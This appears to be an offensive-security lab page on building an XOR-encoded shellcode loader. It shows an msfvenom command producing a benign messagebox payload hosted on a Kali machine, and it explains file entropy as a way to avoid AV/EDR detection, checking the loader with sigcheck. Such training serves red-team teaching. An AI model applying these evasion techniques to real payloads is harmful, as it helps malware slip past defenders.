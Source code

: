 # Lab - XOR Loader

Let's make our loader more evasive by encoding our payload with XOR.

1. Create a raw payload that pops up a messagebox, and host it on our kali machine.

```bash
cd /opt/msf/payloads
msfvenom -a x64 --platform windows -p windows/x64/messagebox TEXT="Successful Execution :)" TITLE="CrimsonCORE"  -f raw -b '\x00\x0a\x0d\x20' -o rawmsgbox.bin
updog2
```

2. Let's download the payload and encode it XOR, and convert it to a csharp array we can use in our loader



# ENTROPY

> ***ENTROPY*** 
> *DEFINITION*: Entropy indicates the randomness within a data set. Higher entropy inidcates higher randomness.
> Files with high entropy (>7.5) are typically blocked by AV/EDR when touching the disk.

![Screenshot](./images/labxor_loader.jpg)

Let's check the emtropy of our XORLoader. We can use sigcheck from the `systeminternals suite`.

```powershell
sigcheck64.exe -a .\XLoader.exe
```

![Screenshot](./images/labxor_sigcheck.jpg)

Our Entropy here is "5" - which is pretty low and shouldn't flag AV/EDR.
